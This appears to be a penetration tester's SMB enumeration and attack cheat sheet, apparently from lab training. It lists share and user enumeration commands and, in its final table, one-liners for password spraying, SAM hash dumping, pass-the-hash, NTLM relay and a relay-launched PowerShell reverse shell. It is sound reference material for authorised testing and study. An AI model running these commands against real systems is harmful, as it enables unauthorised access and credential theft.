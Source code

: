 # SMB (139/445)
- [ ] Check Default Configuration
	```bash
	cat /etc/samba/smb.conf | grep -v "#\|\;"
	```
- [ ] Restart Samba
	```bash
	sudo systemctl restart smbd
	```
- [ ] Check for share
	```bash
	smbmap -H $IP
	```
	```bash
	crackmapexec smb $IP --shares -u '' -p ''
	```
	```bash
	smbclient -N -L //$IP
	```
	```bash
	smbclient -N -L \\\\$IP\\
	```
- [ ] Connect to SMB share
	```bash
	smbclient //$IP/SHARE_NAME
	```
	```bash
	smbclient \\\\$IP\\SHARE_NAME$
	```
	```bash
	smbclient -U user \\\\10.129.42.197\\SHARENAME
	```
	```bash
	smbclient //$IP/C$ -U site.com/username%Password
	```
	```bash
	smbclient //$IP/transfer -U username --pw-nt-hash 820d6348590813116884101357197052 -W site.com
	```
- [ ] Execute Commands
	```bash
	smb: \> !ls
	smb: \> !cat prep-prod.txt
	```
- [ ] Check Connections
	```bash
	smbstatus
	```
- [ ] SMB Nmap
	```bash
	sudo nmap $IP -sV -sC -p139,445
	```
- [ ] rpcclient
	```bash
	rpcclient -U "" $IP
	```
	| **rpcclient Query**   | **Description**   |
	| --------------|-------------------|
	| `srvinfo` | Server information |
	| `enumdomains` | Enumerate all domains that are deployed in the network |
	| `querydominfo` | Provides domain, server, and user information of deployed domains |
	| `netshareenumall` | Enumerates all available shares |
	| `netsharegetinfo <share>` | Provides information about a specific share |
	| `enumdomusers` | Enumerates all domain users |
	| `queryuser <RID>` | Provides information about a specific user |
- [ ] Brute Forcing User RIDs
	```bash
	for i in $(seq 500 1100);do rpcclient -N -U "" $IP -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
	```
- [ ] Impacket - Samrdump.py
	```bash
	samrdump.py $IP
	```
- [ ] [Enum4Linux-ng](https://github.com/cddmp/enum4linux-ng)
	```bash
	cd enum4linux-ng
	pip3 install -r requirements.txt
	./enum4linux-ng.py $IP -A
	```
	
|**Command**|**Description**|
|-|-|
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128` | Network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 -r notes` | Recursive network share enumeration using `smbmap`. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the `rpcclient`. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeratition of the SMB service using `enum4linux-ng`. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the `impacket-psexec`. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using `crackmapexec`. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using `impacket-ntlmrelayx`. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |
